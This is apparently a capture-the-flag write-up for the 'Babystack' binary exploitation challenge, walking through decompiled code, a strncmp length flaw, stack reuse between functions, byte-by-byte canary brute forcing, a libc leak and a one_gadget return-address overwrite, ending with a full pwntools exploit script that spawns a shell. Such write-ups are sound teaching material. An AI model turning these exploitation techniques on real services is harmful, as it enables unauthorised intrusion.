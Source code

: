 ```yaml
---
title: "Babystack"
date: 2023-05-09T00:22:46-07:00
draft: false
---
```


# The binary

So this binary is super small, but it's stripped for the 
most part making it pretty annoying to work with. I opened 
it up in ghidra and found the main function. Essentially what
the program does is open up the `/dev/urandom` file on the 
filesystem and save 16 bytes of that to a local variable. This 
is shown here:
```C
rand_fp = open("/dev/urandom",0);
read(rand_fp,&rand_str,0x10);
puVar1 = DAT_00302020;
*DAT_00302020 = rand_str;
puVar1[1] = local_20;
close(rand_fp);
```
rand_str is what I named this random string that gets pulled from
the urandom file. 

Then the program moves on to a while loop that has 3 'menu' options:
1. Sends you to a password check
2. Leaves the program
3. Sends you to a copy function

### The password check
This is a super simple function that takes in your input and compares
it with the string that was passed into the function:
```C 
printf("Your passowrd :");
FUN_00100ca0(local_88,0x7f); // reading 127 bytes of input
__n = strlen(local_88);
iVar1 = strncmp(local_88,param_1,__n);
if (iVar1 == 0) {
DAT_00302014 = 1;
puts("Login Success !");
} else {
puts("Failed !");
}
return;
```
One issue with this is that it only checks the number of bytes that you 
sent, so if you send nothing (or a null byte), it automatically succeeds. We can use that
in the exploit. 

### The Copy function
This is a weird copy function that creates a 128 byte string and reads 64 bytes of user 
input into the beginning of it, then copies the whole thing to a variable that gets
passed into the function. This is what it looks like:
```C
char local_88 [128];
printf("Copy :");
FUN_00100ca0(local_88,0x3f);
strcpy(param_1,local_88);
puts("It is magic copy !");
return;
```
I was really confused why it only asks for 64 bytes of input when the buffer is 128. 
Then it hit me. The stack of the password function is in the same location as the 
stack in the copy function. This means that if you set the variable longer than 64 bytes
in the password function, those last bytes are going to be copied into the copy buffer.

This is essentially the trick that ends up with a buffer overflow.

# The exploit
So I was able to overwrite the stack, but there was a custom stack check built into the 
program that kept me from a segfault. This led me to brute force the canary since the 
canary is the password that your input gets checked against, you can guess as many times
as you want. What I ended up doing is brute forcing the stack canary one byte at a time.
This wasn't too difficult, and I could brute force it pretty much instantly. This part 
got me to a return address overwrite, but I had no idea what to return to. Well, convieniently
The spot on the stack where the random string is in the password function happens to be taken
by a libc address on the copy function. This is how we get the libc leak. We can copy the 
libc address into the password variable and brute force it byte-by-byte. 

This lead to a nice leak of the libc and I was able to take that leak and convert it to a
one_gadget and append it to the return address. This ended up getting the shell. I had some
issues on remote since it was a brute force, but running it for about 20 minutes got a shell 
just fine. This is what my final exploit looked like: 
```C 
def brute():
    some = b''
    for x in range(16):
        s = b''
        for i in range(1, 255):
            p.sendline(b'1')
            p.recvuntil(b'Your passowrd :')
            payload = some + i.to_bytes(1)
            p.sendline(some + i.to_bytes(1))
            conf = p.recv()
            if b'Failed' not in conf:
                print(conf)
                s = i.to_bytes(1)
                p.sendline(b"1")
                p.recv()
                break
        some += s
    return some

p = conn() # Connecting to the server
rand = brute()
print('Rand str {}'.format(rand))
p.sendline(b'1')
print(p.recv())
p.send(b'\x00' + b'A'*(71))
print(p.recv())
p.sendline(b'3')
print(p.recvuntil(b'Copy :'))
p.send(b'B'*0x3f)
print(p.recvuntil(b'>> '))
p.sendline(b'1')
print(p.recvuntil(b'>> '))
leak = brute()
addr = unpack(leak[8:16], 'all')
print(hex(addr -492601))
libc.address = addr-492601
p.sendline(b'1')
print(p.recv())
p.sendline(b'\x00' + b'A'*(63) + rand + b's'*24 + p64(libc.address + 0x45216))
print(p.recv())
p.sendline(b'3')
print(p.recv())
p.send(b'B'*0x3f)
print(p.recv())
p.sendline(b'2')
p.interactive()
```
Thanks for reading. If you have any questions feel free to reach out to me on twitter @lucasballr
